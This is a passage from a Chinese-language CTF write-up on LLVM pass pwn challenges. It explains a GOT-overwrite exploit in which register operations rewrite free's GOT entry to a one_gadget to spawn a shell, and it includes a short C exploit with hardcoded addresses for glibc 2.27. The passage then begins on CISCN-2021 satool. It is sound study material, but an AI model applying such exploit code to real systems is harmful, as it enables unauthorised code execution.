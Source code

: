 store 和load函数

![image-20230718225432871](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352506.png)

![image-20230718230708019](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352507.png)

add和min函数使得寄存器加或减去一个值

![image-20230718225709247](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352508.png)

### 漏洞利用

通过上面对函数的分析，函数的漏洞利用就很明显了

- 利用add函数使得reg2的值为free_got
- 利用load 指令读取 free_got中的值赋给reg1
- 利用add函数 使reg1的值加上one_gadget 距离 free 的偏移得到one_gadget
- 利用store 函数，将free_got 修改为one_gadget 
- 退出获取shell

### exp

测试环境为`Ubuntu 18.04`，对应`GLIBC 2.27-3ubuntu1.6`版本，`exp`如下

```c
//free_got 077E100 
//one_gadget-free=0x729ec 
void o0o0o0o0();
void pop(int reg_index);
void push(int reg_index);
void store(int reg_index);
void load(int reg_index);
void add(int reg_index,int value);
void min(int reg_index,int value);
void o0o0o0o0(){
	add(2,0x077E100);
	load(2);
	add(1,0x729ec);
	store(2);
}
```

![image-20230718234953759](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352509.png)

## CISCN-2021 satool

![image-20230720103034377](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352510.png)

![image-20230720102550344](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352511.png)

可以得出pass名为SAPass，重写的`runOnFunction`函数为`sub_19D0`

### 函数分析
